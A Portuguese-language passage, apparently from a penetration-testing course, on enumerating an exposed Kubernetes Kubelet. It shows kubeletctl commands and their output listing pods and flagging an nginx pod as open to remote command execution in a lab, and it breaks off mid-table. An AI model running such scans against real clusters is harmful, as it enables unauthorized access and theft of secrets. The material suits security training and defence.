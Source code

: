 As informações exibidas na saída incluem `names`, `namespaces`, `creation timestamps`e `container images`dos pods. Elas também mostram o `last applied configuration`para cada pod, que pode conter detalhes confidenciais sobre as imagens do contêiner e suas políticas de pull.

Compreender as **imagens de contêiner** e suas versões no cluster Kubernetes pode ajudar a identificar e explorar vulnerabilidades conhecidas para obter acesso não autorizado. Informações de **namespace** fornecem uma visão sobre a organização dos pods e recursos, permitindo ataques direcionados a namespaces vulneráveis.

Metadados como **uid** e **resourceVersion** são úteis para reconhecimento e identificação de alvos potenciais. Além disso, revelar a configuração aplicada pode expor informações confidenciais, como senhas, segredos ou tokens de API usados na implantação dos pods.

#### Kubeletctl - Extraindo Pods

```shel-session
cry0l1t3@k8:~$kubeletctl -i --server 10.129.10.11 pods
```
<pre style="overflow-x:scroll; font-weight:500;;">
┌────────────────────────────────────────────────────────────────────────────────┐
│                                Pods from Kubelet                               │
├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤
│   │ POD                                │ NAMESPACE   │ CONTAINERS              │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 1 │ coredns-78fcd69978-zbwf9           │ kube-system │ coredns                 │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 2 │ nginx                              │ default     │ nginx                   │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 3 │ etcd-steamcloud                    │ kube-system │ etcd                    │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
</pre>

Para interagir efetivamente com pods dentro do ambiente Kubernetes, é importante ter uma compreensão clara dos comandos disponíveis. Uma abordagem que pode ser particularmente útil é utilizar o comando `scan rce` em `kubeletctl`. Este comando fornece insights valiosos e permite o gerenciamento eficiente de pods.

#### API do Kubelet - Comandos disponíveis

```shell-session
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 scan rce
```
<pre style="overflow-x:scroll; font-weight:500;;">
┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                   Node with pods vulnerable to RCE                                  │
├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
│   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│   │              │                                    │             │                         │ RUN │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 1 │ 10.129.10.11 │ nginx                              │ default     │ nginx                   │ +   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │